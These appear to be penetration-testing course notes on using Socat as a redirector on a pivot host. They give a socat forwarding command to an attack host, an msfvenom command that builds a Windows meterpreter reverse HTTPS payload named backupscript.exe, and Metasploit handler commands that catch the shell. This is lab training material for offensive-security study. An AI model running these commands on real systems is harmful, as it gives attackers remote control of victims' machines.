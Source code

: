 - [Socat](https://linux.die.net/man/1/socat) is a **bidirectional relay tool that can create pipe sockets between `2` independent network channels** without needing to use SSH tunneling.
- It acts as a **redirector that can listen on one host and port and forward that data to another IP address and port.**


- Starting Socat Listener (On Pivot Box):
	- `socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80`
	- Socat will **listen on localhost on port `8080`** and **forward all the traffic to port `80` on our attack host (10.10.14.18).**
- Once our redirector is configured, we can create a payload that will connect back to our redirector, which is running on our Ubuntu server.
- **We will also start a listener on our attack host** because as soon as socat receives a connection from a target, **it will redirect all the traffic to our attack host's listener**, where we would be getting a shell.

- Creating the Windows Payload:
	- `msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129(PivotBox) -f exe -o backupscript.exe LPORT=8080`
- Keep in mind that we must transfer this payload to the Windows host.

- Configuring & Starting the multi/handler (On Attacker Machine):
	- `use exploit/multi/handler`
	- `set payload windows/x64/meterpreter/reverse_https`
	- `set lhost 0.0.0.0`
	- `set lport 80`
	- `run`